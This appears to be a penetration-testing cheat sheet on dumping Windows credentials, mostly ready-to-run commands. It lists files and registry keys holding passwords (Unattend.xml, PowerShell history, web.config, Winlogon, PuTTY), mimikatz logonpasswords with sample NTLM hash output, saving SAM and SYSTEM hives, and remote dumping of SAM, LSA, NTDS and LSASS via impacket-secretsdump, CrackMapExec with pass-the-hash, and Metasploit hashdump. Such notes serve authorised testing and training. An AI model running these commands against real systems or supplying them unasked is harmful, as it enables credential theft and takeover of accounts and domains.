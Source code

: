 # Dumping credentials

## Locally

### Interesting File System

<details>

<summary>Windows configuration file</summary>

```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

</details>

<details>

<summary>Powershell History</summary>



Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands.

```
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

</details>

<details>

<summary>Saved Windows Credentials</summary>

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:

```shell-session
cmdkey /list
```

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the `runas` command and the `/savecred` option, as seen below.

```shell-session
runas /savecred /user:admin cmd.exe
```

</details>

<details>

<summary>IIS Configuration</summary>



Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called `web.config` and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:

```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

Here is a quick way to find database connection strings on the file:

{% code title="Powershell" %}
```shell-session
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
{% endcode %}

</details>

<details>

<summary>Auto Logon Credentials</summary>

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

</details>

### Retrive from Softwares

<details>

<summary>PuTTY</summary>

PuTTY is a popular SSH client for Windows. It allows users to save sessions with connection details like IP and username, so they don't have to enter them every time. Though PuTTY doesn't save SSH passwords, it does save proxy settings with plain text passwords. To find saved proxy passwords, look for the `ProxyPassword` under this registry key using the following command:

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

{% hint style="info" %}
Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.
{% endhint %}

</details>



### Mimikatz

{% content-ref url="../../../tools/tools/mimikatz.md" %}
[mimikatz.md](../../../tools/tools/mimikatz.md)
{% endcontent-ref %}

Then, we need to transfer the tool to dump hashes to the target machine.

#### mimikatz.exe

```powershell
PS> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit

# output
Authentication Id : 0 ; 302247 (00000000:00049ca7)
Session : UndefinedLogonType from 0
User Name : Alice
Domain : DOMAIN
Logon Server : DC1
Logon Time : 12/01/2023 15:13:19
SID : S-1-5-21-3501040295-3816137123-30697657-1109
msv :
[00000003] Primary
* Username : Alice
* Domain : DOMAIN
* NTLM : a0c8746a6efc7782c7c19c55185145be
```

#### Invoke-Mimikatz.ps1

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>



### Stealing SAM & SYSTEM

The easiest way to steal those files is to get a copy from the registry:

```powershell
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

**Download** those files to your Kali machine and **extract the hashes** using:

```bash
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```



## Remotely

Sections below allow us to dump credentials from Kali linux to Windows target.



### Impacket's secretsdump&#x20;

```bash
impacket-secretsdump $DOMAIN.COM/$USER:$PASS@$DC_IP
```

```bash
impacket-secretsdump administrator:@$IP -hashes $LM:$NT
```



### CrackMapExec



```bash
# print all module
crackmapexec smb -L
```



#### Mimikatz

```bash
crackmapexec smb <IP> -u USER -p PASSWORD -M mimikatz
```

#### Dump SAM <a href="#dump-sam-hashes" id="dump-sam-hashes"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --sam
```

#### Dump LSA <a href="#dump-lsa-secrets" id="dump-lsa-secrets"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --lsa
```

#### Dump NTDS <a href="#dump-the-ntdsdit-from-target-dc" id="dump-the-ntdsdit-from-target-dc"></a>

```bash
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --ntds
```

#### Dump LSASS

```bash
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --lsassy

# with PtH
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' -M lsassy
```



### Metasploit

If we have a open meterpreter session&#x20;

```bash
use post/windows/gather/hashdump
set SESSION
run
```





## Hash-Identify

This is a tool that simplify the hash type detection

```bash
hash-identifier
# paste your hash
```



